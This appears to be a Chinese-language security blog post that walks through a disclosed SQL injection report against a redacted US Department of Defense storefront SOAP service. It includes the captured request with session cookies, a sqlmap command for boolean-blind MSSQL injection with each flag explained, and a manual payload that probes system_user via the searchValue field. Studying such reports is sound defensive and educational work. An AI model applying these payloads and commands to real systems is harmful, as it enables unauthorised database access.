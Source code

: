 #  美国国防部注入漏洞报告分析   
原创 【白】  白安全组   2024-01-07 13:23  
  
这里是一个比较有意思的注入漏洞，是一个搜索框的注入漏洞，也是我们平时测试中可能会忽略的一点。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUZLxWgB85p0M2BcibQsAdxicicUk0ibGWHjz8mFIefpdNNeulqyAvnYQLIkmDbLE7wjY3tx5MVWH2fbkQ/640?wx_fmt=png&from=appmsg "")  
  
这里可以看到，一个基本寻找测试点的流程，这里作者针对了一个输入框进行测试，下面是完整的数据包  
  
```
POST /DSF/webservices/StorefrontService.asmx HTTP/1.1
Host: ████████
Cookie: ASP.NET_SessionId=1phpamlj3ghg13yranwpwyc4; LASTSITEACTIVITY=17b9c74a-f80b-4e48-b274-729acb2e14ad; _____SITEGUID=17b9c74a-f80b-4e48-b274-729acb2e14ad; BIGipServerdso_dla_pool=!bMk2BVeAkzRdd6t/+hAGiDi1KgdSoi+88iAAs7+CvOtONGAdcnAhOqOuh++pi3IS36YNq+YVfr5l8HI=; TS01a7bc09=01a9fe659b2979abff2645807c9ce81ffbeeeeaafa33f9038d5a1c59dd219a29ce68fa7d4edb9afe6bb9488ceb9c8dd10214f84f28; DSFPartnerID=yaY5gqbGhOY=; TS2f53739b027=085749d0e4ab200041fc059864d60f7079a5bba1c971a9b0ec2c518a8be95c59408233620a4046e908a71691ce11300072991b95acde4750057dcf4b690fc5d287bd05e77fb374c2ef003c7fa6de858098c8aded9cd3dbae4fb2b4cb23fae3f4
Content-Length: 945
Sec-Ch-Ua: "Not.A/Brand";v="8", "Chromium";v="114", "Google Chrome";v="114"
Accept: application/xml
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
Soapaction: http://www.efi.com/dsf/StorefrontService/GetAllFacilitiesForNewUserRegistration
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://███
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://█████/DSF/SmartStore.aspx?6xni2of2cF01Wh1WA1f8KvqWdFIzCmht0+f1rjakhLYZYEorRbI5CMSxx2CBgN1b
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

      <soapenv:Envelope xmlns:soapenv='http://schemas.xmlsoap.org/soap/envelope/' xmlns:xsi='http://www.w3.org/2001/XMLSchema-instance' >      <soapenv:Header>     <AuthenticationHeader xmlns='http://www.efi.com/dsf/BuyerTicketClientServices'>      <SiteGUID>17b9c74a-f80b-4e48-b274-729acb2e14ad</SiteGUID>
<SessionTokenID>49f22361-1243-4cde-9788-7bad2eb575ed</SessionTokenID>
<TimeOut>20</TimeOut>
<CultureName>zh-CN</CultureName>

      </AuthenticationHeader>      </soapenv:Header>     <soapenv:Body>      <GetAllFacilitiesForNewUserRegistration xmlns='http://www.efi.com/dsf/StorefrontService'>      <companyId>-1</companyId>
<cultureName>zh-CN</cultureName>
<sortColumn>description</sortColumn>
<sortOrder>asc</sortOrder>
<searchValue>*</searchValue>
<currentPageIndex>1</currentPageIndex>
<recordsToFetch>10</recordsToFetch>

      </GetAllFacilitiesForNewUserRegistration>      </soapenv:Body>      </soapenv:Envelope>
```  
  
  
  
上面的数据包，这里就可以学会一个小技巧，我们想测试搜索框中的数据包，可以将html代码放到数据包的下面进行传递，这里我们需要测试的点在<searchValue>标签中间  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUZLxWgB85p0M2BcibQsAdxicic4Eg4u2W8jl3miaYnb0JzOqaF1UXxpPUVYCnsCSb5TtkN0mt0NrZwARw/640?wx_fmt=png&from=appmsg "")  
  
可以看到这里中间加了*号，方便sqlmap进行测试  
  
```
sqlmap.py -r 11.txt --random-agent --batch --technique=b --dbms=mssql --force-ssl --level 3 --skip-urlencode
```  
  
这里是使用的sqlmap的语句，这里面我们也可以学习一下一些简单的用法  
  
**首先txt文件就是上面的数据包了**  
  
**然后random-agent就是随机数据头**  
  
**batch是选择默认的选项**  
  
**--technique是选择注入的方式，b是布尔盲注**  
  
**然后dbms是选择数据库类型，这里是mssql**  
  
**--force-ssl是强制使用https模式访问**  
  
**level就是测试等级了**  
  
**最后一个--skip-urlebcode，这里我理解的是禁止sqlmap进行url编码**  
，下面的是gpt的一些解释  
  
**sqlmap 可能会尝试对请求中的数据进行 URL 编码的检测和处理，以确保测试的准确性。然而，使用 --skip-urlencode 选项可以禁止 sqlmap 对请求数据进行自动的 URL 编码处理。**  
  
  
手工测试：  
```
<searchValue>1'  and substring(system_user,1,16)='public\dsfwsuser' and '%'='</searchValue>
```  
  
  
  
这里可以学习到一些经验  
  
and substring(system_user,1,16)='public\dsfwsuser': 这是注入的主要部分。它试图通过 substring 函数检查 system_user 的子字符串是否与给定的字符串 'public\dsfwsuser' 相匹配。这可能是为了尝试确定当前用户是否是 public\dsfwsuser，以便进行后续的攻击步骤。  
  
  
and '%'=': 这是为了构建一个始终为真的条件，以确保原始查询不会受到影响。在这里，'%'=' 代表一个始终为真的条件，因为百分号 '%' 总是等于它自己。这样做是为了保持原始查询的逻辑正确性，同时添加额外的条件来执行攻击者想要的行为。  
  
这个漏洞报告到这里就结束了，其实重要的一个是测试功能点的思路，还有一个就是sqlmap自动化测试的一个使用经验，希望大家可以学到。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUZLxWgB85p0M2BcibQsAdxicic4HN0HXJicUFT1MKKGtBvV7fnFft3BxanhpsdpciaIeIJLCowqiaLhfz5Q/640?wx_fmt=png&from=appmsg "")  
  
